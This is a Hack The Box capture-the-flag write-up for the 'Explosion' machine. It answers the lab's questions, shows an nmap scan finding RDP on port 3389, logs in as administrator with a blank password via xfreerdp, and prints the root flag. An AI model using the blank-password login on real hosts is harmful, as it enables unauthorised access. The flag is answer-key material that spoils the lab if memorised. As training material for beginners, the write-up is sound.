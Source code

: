 ```yaml
---
title: 🔵 HTB - Explosion
date: 2023-08-01
categories: [HackTheBox, Machines]
tags: [rdp, xfreerdp]
---
```


# Explosion

What does the 3-letter acronym RDP stand for?

`Remote Desktop Protocol`

What is a 3-letter acronym that refers to interaction with the host through a command line interface?

`cli`

What about graphical use interactions?

`gui`

_What is the name of an old remote access tool that came without encryption by default and listens on TCP port 23?_

`telnet`

Whats is the name of the service running on port 3389 TCP?

```bash
$ nmap -sV -p-
...
PORT      STATE SERVICE       VERSION
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
...
```

What username successfully returns a desktop projection to us with a blank password

`administrator`

Submit root flag

```bash
$ xfreerdp /u:administrator /v:hostname
...
951fa96d7830c451b536be5a6be008a0
```
